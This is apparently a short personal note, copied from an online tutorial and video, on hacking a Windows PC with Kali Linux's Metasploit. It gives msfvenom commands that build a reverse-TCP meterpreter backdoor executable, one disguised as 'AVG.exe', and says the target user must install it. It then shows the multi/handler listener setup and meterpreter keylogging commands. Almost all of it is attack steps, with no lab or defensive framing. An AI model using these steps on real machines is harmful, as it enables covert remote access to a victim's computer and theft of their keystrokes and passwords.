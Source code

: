 # Requires kali built in metasploit framework

##https://www.instructables.com/Hack-Windows-PC-Using-Kali-Linux/

This seems like interesting project to do.
Simple enough to do it

First create a payload that allows us to get into windows. (The user has to install this file)
  > msfvenom -p windows/meterpreter/reverse_tcp - platform windows-a x86 -f exe -o /root/Desktop/back.exe

Not sure if it works but youtuber used this as back door
- https://www.youtube.com/watch?v=NswVmCacnfs
  > msfvenom -p windows/meterpreter/reverse_tcp LHOST=(your_IP) LPORT=4444 -f exe > /root/Desktop/AVG.exe

Then start metasploit framework console
  > msfconsole

He mentioned there are many different exploitation method (Will have to research on this)
In this project he used multi handler
  > use exploit/multi/handler

Specify payload
  > set payload windows/meterpreter/reverse_tcp

Provide current IP to allow communication between the two
  > set LHOST {IP}

get the other machine to install and type
  > exploit

allows keylogging
  > keyscan_start
  > keyscan_stop
  > keyscan_dump
